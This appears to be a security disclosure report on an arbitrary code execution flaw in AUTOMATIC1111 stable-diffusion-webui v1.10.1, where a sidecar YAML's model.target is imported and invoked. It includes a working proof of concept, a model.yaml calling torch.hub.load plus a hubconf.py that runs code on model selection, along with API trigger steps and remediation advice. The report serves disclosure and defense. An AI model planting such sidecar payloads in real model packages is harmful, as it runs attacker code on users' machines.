# AUTOMATIC1111 stable-diffusion-webui v1.10.1 — Arbitrary Code Execution via Same-Basename YAML Sidecar (`model.target`)

## Summary

AUTOMATIC1111 stable-diffusion-webui v1.10.1 (and master HEAD `82a973c0`) is affected by an arbitrary code execution flaw in its checkpoint-config discovery logic. When a user selects a `.safetensors` checkpoint, the product automatically adopts a same-basename `.yaml` file sitting next to it as the model configuration, parses it with OmegaConf, and evaluates its `model.target` string as a Python object which is then invoked with attacker-controlled `params`. A model package that contains only `model.safetensors` + `model.yaml` + `hubconf.py` therefore executes arbitrary attacker-supplied Python at the moment the victim selects the model in the UI, because `model.target: torch.hub.load` with `source: local` makes `torch.hub` import `hubconf.py` from the attacker's package directory.

## Affected Product

| Field | Value |
|---|---|
| Vendor | AUTOMATIC1111 |
| Product | stable-diffusion-webui |
| Affected versions | v1.10.1 (latest release, built from commit `82a973c04367123ae98bd9abdf80d9eda9b910e2`); master HEAD `82a973c04367123ae98bd9abdf80d9eda9b910e2` still contains the vulnerable code |
| Component | `modules/sd_models_config.py` (`find_checkpoint_config_near_filename`), `modules/sd_models.py` (`load_model`, `instantiate_from_config`, `get_obj_from_str`) |
| Platform | Any (Python; verified on Linux — original verification in Docker/Python 3.10, this reproduction on WSL2 Ubuntu 24.04/Python 3.11) |
| Vulnerability type | CWE-470: Use of Externally-Controlled Input to Select Classes or Code ('Unsafe Reflection'), reached through an untrusted same-directory config search; final impact is arbitrary code execution (CWE-94) |

## Root Cause

**Location 1 — untrusted same-basename config search:** `modules/sd_models_config.py:128-136` (`find_checkpoint_config_near_filename`)

The product derives the configuration path purely from the checkpoint filename, with no restriction on where the `.yaml` comes from. Anything unpacked next to the model file becomes the model configuration:

```python
def find_checkpoint_config_near_filename(info):
    if info is None:
        return None

    config = f"{os.path.splitext(info.filename)[0]}.yaml"
    if os.path.exists(config):
        return config

    return None
```

**Location 2 — config is loaded and "repaired", then the `target` string is resolved to a live object:** `modules/sd_models.py:809-820` (`load_model`) and `modules/sd_models.py:767-783` (`instantiate_from_config` / `get_obj_from_str`)

```python
sd_config = OmegaConf.load(checkpoint_config)          # attacker's YAML
repair_config(sd_config, state_dict)
...
sd_model = instantiate_from_config(sd_config.model, state_dict)
```

```python
def instantiate_from_config(config, state_dict=None):
    constructor = get_obj_from_str(config["target"])   # attacker-controlled string -> object
    params = {**config.get("params", {})}              # attacker-controlled kwargs
    ...
    return constructor(**params)                       # invoked

def get_obj_from_str(string, reload=False):
    module, cls = string.rsplit(".", 1)
    ...
    return getattr(importlib.import_module(module, package=None), cls)
```

`model.target` is resolved with `importlib.import_module()` + `getattr()` and called with `model.params` as keyword arguments. `repair_config()` (modules/sd_models.py:599-601) injects `model.params.use_ema = False` before the call, which rules out strict-signature gadgets such as `subprocess.run`, but any callable accepting/absorbing extra kwargs works. `torch.hub.load(repo_or_dir, model, source="local", ...)` is one such gadget: the extra `use_ema` kwarg is forwarded to the entry point declared in `hubconf.py` (`build(**kwargs)`), and importing the "local repo" executes the package's `hubconf.py` top-level code.

The input is fully attacker-controlled: model packages are distributed as archives (e.g. via model-sharing sites); unpacking one into `models/Stable-diffusion/` places both the `.safetensors` and the same-basename `.yaml` (+ `hubconf.py`) on the victim machine. No other privilege or configuration is needed.

## Proof of Concept

### Prerequisites

- A default stable-diffusion-webui v1.10.1 installation, running with `--api` (the API is what this reproduction drives; the same code path is reached from the web UI checkpoint dropdown, which issues the identical `reload_model_weights()` call).
- The victim has unpacked the attacker's model package into `models/Stable-diffusion/`.

### The attacker's model package (`mbe2e_pack/`)

Three ordinary files; the `.safetensors` payload is inert (152 bytes, written with the official `safetensors.torch.save_file` API) — the live part is the sidecar YAML and `hubconf.py`:

`model.yaml`
```yaml
model:
  target: torch.hub.load
  params:
    repo_or_dir: models/Stable-diffusion/mbe2e_pack
    model: build
    source: local
```

`hubconf.py`
```python
# part of the attacker's model package
import pathlib
pathlib.Path('/out/pwned_by_a1111_yaml_target').write_text('MBE2E-CANARY-a1111-yaml-target-v1' + chr(10))

def build(**kwargs):
    import types
    return types.SimpleNamespace(mbe2e='model-package-controlled')
```

A negative-control package (`mbe2e_neg/`) is byte-identical except that `model.target` is the benign `torch.nn.Identity` with empty params — same `hubconf.py` sitting on disk, never executed.

### Steps to Reproduce

Environment used for the screenshots below (all commands real, executed one by one in a WSL2 Ubuntu 24.04 terminal, 2026-09-29): stable-diffusion-webui at pinned commit `82a973c04367123ae98bd9abdf80d9eda9b910e2` (same as v1.10.1 release), Python 3.11.16 venv, torch 2.1.2+cpu. An earlier end-to-end verification of the identical packages ran in Docker against the same commit (Python 3.10) with the same canary result.

1. Confirm the checked-out product commit and the vulnerable code paths:



This screenshot shows the product tree is at commit `82a973c04367123ae98bd9abdf80d9eda9b910e2` (the v1.10.1 release commit).

2. The same-basename sidecar discovery in `modules/sd_models_config.py` (lines 125-136):



`find_checkpoint_config_near_filename()` returns any existing `<checkpoint-basename>.yaml` next to the model file — no origin check.

3. The dynamic target resolution in `modules/sd_models.py` (lines 767-784):



`model.target` is turned into a callable via `importlib.import_module()` + `getattr()` and invoked with `model.params`.

4. The load path in `modules/sd_models.py` (lines 804-820) that feeds the attacker's YAML into the sink:



`OmegaConf.load(checkpoint_config)` → `repair_config()` → `instantiate_from_config(sd_config.model, state_dict)`.

5. Show the two PoC files of the attacker's package:





`model.yaml` names `torch.hub.load` with `repo_or_dir` pointing at the package directory itself; `hubconf.py` writes a canary file at its module top level.

6. Start the product and verify it is up (`--skip-load-model-at-start`, API enabled on port 7865); remove any pre-existing canary first:



`curl` against `/sdapi/v1/sd-models` returns `200`, and the canary path `/out/pwned_by_a1111_yaml_target` was just removed.

7. Ask the product which configuration it will use for the checkpoint — the product itself reports the attacker's sidecar YAML as the model config:



`GET /sdapi/v1/sd-models` lists `mbe2e_pack/model.safetensors` with `"config": ".../mbe2e_pack/model.yaml"` — the same-basename sidecar has been adopted by the product. This mirrors what the UI checkpoint dropdown does.

8. Negative control — select the benign package (`model.target: torch.nn.Identity`): code execution must NOT happen:



`POST /sdapi/v1/options {"sd_model_checkpoint": "mbe2e_neg/model.safetensors"}` returns 200 and `ls -l /out` shows `total 0` — the sidecar was read (step 7) and loaded, but `hubconf.py` was not executed.

9. Trigger — select the attacker's package:



`POST /sdapi/v1/options {"sd_model_checkpoint": "mbe2e_pack/model.safetensors"}` returns 200 and `ls -l /out` now shows the canary file `pwned_by_a1111_yaml_target` (34 bytes) created by the package's `hubconf.py`.

10. Canary content written by the attacker-supplied code inside the product process:



`cat /out/pwned_by_a1111_yaml_target` prints `MBE2E-CANARY-a1111-yaml-target-v1` — arbitrary code from the model package ran inside the webui process.

11. The product's own log proves both selections went through the sidecar config path:



`Creating model from config: .../mbe2e_neg/model.yaml` and `Creating model from config: .../mbe2e_pack/model.yaml` — both loads used the same-basename sidecar; only the `target` string differed.

### Expected vs Actual

- Expected: model sidecar configuration should not be able to specify arbitrary code objects to instantiate, and files packaged next to a downloaded model must not run as code.
- Actual: selecting the checkpoint executes `model.target` from the attacker's sidecar YAML; `torch.hub.load(..., source="local")` imports the package's `hubconf.py`, running attacker Python top-level code inside the product process.

### Sanitized PoC input

```text
mbe2e_pack/
    model.safetensors   152 bytes, written by safetensors.torch.save_file (inert payload)
    model.yaml          target: torch.hub.load / repo_or_dir: models/Stable-diffusion/mbe2e_pack
                        model: build / source: local
    hubconf.py          writes /out/pwned_by_a1111_yaml_target at import time
```

Sample SHA-256 values are recorded in `SHA256SUMS.txt` inside `poc/a1111-yaml-target-poc.zip` (positive `model.yaml`: `c16486ed819b1c6cce7ee1ce50b9c07c25fbaf98c13784fcff45ad228bada042`). The complete submission package — both model packages, the generator script, SHA-256 sums, a step-by-step `REPRODUCE.md` and the 12 evidence screenshots above — is packaged in that zip.

## Impact

- Confidentiality: High — arbitrary code runs with the webui process privileges; process memory, files, and credentials reachable by that user can be exfiltrated.
- Integrity: High — arbitrary file writes/ modification under the victim user's permissions.
- Availability: High — arbitrary code can terminate or destabilize the product and the host workload.
- Scope: code execution inside the product process; the canary write demonstrates arbitrary filesystem effect outside the models directory.


## Remediation

- Do not instantiate `model.target` from user-supplied sidecar configs. Restrict sidecar YAMLs to a fixed schema (validated keys, enum values) and resolve the model class from an allow-list; ignore or warn on unknown `target` values.
- Alternatively, only honor sidecar configs that the user explicitly registered (or ship with the product), not arbitrary files placed next to downloaded checkpoints.
- Drop the `get_obj_from_str` dynamic import path for checkpoint configs (`modules/sd_models.py:778`), or gate it behind an explicit trusted-config flag.
- Workaround for users: do not unpack untrusted model archives into `models/Stable-diffusion/`; delete any `.yaml` arriving next to downloaded checkpoint files; run the webui in a sandbox.


## References

- Source repository: https://github.com/AUTOMATIC1111/stable-diffusion-webui/
- Affected code: https://github.com/AUTOMATIC1111/stable-diffusion-webui/blob/82a973c04367123ae98bd9abdf80d9eda9b910e2/modules/sd_models_config.py (L128-136), https://github.com/AUTOMATIC1111/stable-diffusion-webui/blob/82a973c04367123ae98bd9abdf80d9eda9b910e2/modules/sd_models.py (L599-601, L767-783, L809-820)
- CWE-470: https://cwe.mitre.org/data/definitions/470.html
- CWE-94: https://cwe.mitre.org/data/definitions/94.html
- Vendor advisory: [none]
- Upstream report: [pending publication]

